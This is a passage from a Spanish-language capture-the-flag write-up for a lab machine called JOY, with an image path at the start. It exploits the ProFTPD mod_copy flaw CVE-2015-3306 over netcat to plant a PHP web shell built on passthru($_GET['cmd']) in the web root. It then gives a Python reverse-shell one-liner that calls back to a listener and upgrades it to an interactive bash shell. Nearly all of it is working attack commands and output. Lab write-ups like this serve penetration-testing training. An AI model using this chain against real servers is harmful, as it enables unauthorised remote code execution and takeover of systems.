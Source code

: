 - Aquí puedes leer más sobre la vulnerabilidad: https://github.com/t0kx/exploit-CVE-2015-3306

```
root@kali:~/JOY# nc 10.10.10.149 21
220 The Good Tech Inc. FTP Server
site cpfr /proc/self/cmdline
350 File or directory exists, ready for destination name
site cpto /tmp/.<?php echo passthru($_GET['cmd']); ?>
250 Copy successful
site cpfr /tmp/.<?php echo passthru($_GET['cmd']); ?>
350 File or directory exists, ready for destination name
site cpto /var/www/tryingharderisjoy/reverse.php
250 Copy successful
```

<img src="https://github.com/El-Palomo/JOY/blob/main/joy12.jpg" widht=80% />

> Obtenemos una conexión REVERSA.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.133",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


root@kali:~/JOY# netcat -lvp 443
Connection from 10.10.10.149:39292
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@JOY:/var/www/tryingharderisjoy$ hostname
hostname
JOY
www-data@JOY:/var/www/tryingharderisjoy$ 
```
